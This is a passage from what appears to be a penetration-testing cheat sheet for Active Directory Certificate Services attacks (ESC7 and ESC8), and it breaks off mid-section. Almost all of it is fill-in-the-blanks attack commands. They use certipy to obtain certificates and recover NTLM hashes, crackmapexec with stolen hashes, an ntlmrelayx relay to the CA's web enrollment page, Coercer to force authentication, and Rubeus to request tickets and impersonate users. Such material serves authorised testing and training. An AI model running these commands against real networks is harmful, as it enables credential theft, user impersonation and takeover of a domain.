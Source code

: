 ````
```
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -retrieve <REQUEST ID> -out 'esc7' -debug
```

#### Append files
```
vim esc7.crt
vim esc7.key
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Unpac the hash
```
certipy auth -pfx 'esc7.pfx'
```

#### Check access
```
cme smb <FQDN> -u <USER> -H <NTLM HASH>
```

### ESC8 NTLM Relay to AD CS HTTP(S) Endpoints
- Web enrollment interface (`http://<CA FQDN>/certsrv/certsnsh.asp`)
- Target Default Machine Template or Domain Controller Authentication

#### Enumerate HTTP Enrollment Endpoints
```
certipy find -u <USER>@<FQDN DOMAIN> -p <PASSWORD> -dc-ip <DC IP> -stdout
```

```
certutil -enrollmentServerURL -config <CA NAME>
```

#### Start NTLMRelay
```
python3 ntlmrelayx.py -t http://<FQDN CA>/certsrv/certfnsh.asp -smb2support --adcs --template <TEMPLATE NAME>
```

#### Force coerce
```
python3 Coercer.py coerce -l <KALI IP> -t <TARGET IP> -u <USER> -p <PASSWORD> -d <DOMAIN> -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

#### Request TGT
```
.\Rubeus.exe asktgt /user:<COMPUTER ACCOUNT>$ /domain:<FQDN DOMAIN> /dc:<FQDN DC> /outfile:esc8.kirbi /certificate:<BASE64 CERT>
```

#### Execute S4USelf
```
.\Rubeus.exe s4u /self /impersonateuser:<USER> /altservice:cifs/<FQDN COMPUTER> /dc:<FQDN DC> /user:<COMPUTER ACCOUNT>$ /ticket:esc8.kirbi /ptt
```

#### Check access
```
````